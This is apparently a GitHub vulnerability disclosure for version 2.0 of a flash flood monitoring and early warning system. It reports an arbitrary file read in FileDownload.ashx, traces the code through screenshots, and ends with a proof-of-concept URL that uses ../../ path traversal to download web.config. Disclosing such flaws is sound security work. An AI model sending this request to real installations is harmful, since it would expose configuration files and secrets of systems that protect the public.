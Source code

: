 Flash flood disaster monitoring and early warning system 2.0 has arbitrary file reading vulnerability

official website:http://www.cdwanjiang.com/

Vulnerability location:\Service\FileDownload.ashx

![WPS图片(1)](https://github.com/nagenanhai/cve/assets/42707759/b362165a-3d52-496d-891a-e6cb3a244f5f)

Tracking class:

\bin\MFCW.Web.dll
// MFCW.Web.Service.FileDownload

![WPS图片(2)](https://github.com/nagenanhai/cve/assets/42707759/cc35748c-dd08-4266-a740-465dbd4a3bfe)

Enter the Download function:

![WPS图片(3)](https://github.com/nagenanhai/cve/assets/42707759/67b316b0-717f-4bca-9594-6a5cdd36ee20)

Enter the ResponseFile function:

![WPS图片(5)](https://github.com/nagenanhai/cve/assets/42707759/e4b352ad-ac30-4f60-a37a-016aa03cebde)

POC：
```
http://xx.xx.xx.xx/Service/FileDownload.ashx?Files=../../web.config&FileSaveName=web
```
![WPS图片(4)](https://github.com/nagenanhai/cve/assets/42707759/0b9c2afb-42cc-446e-9ca3-55295a8f1c97)
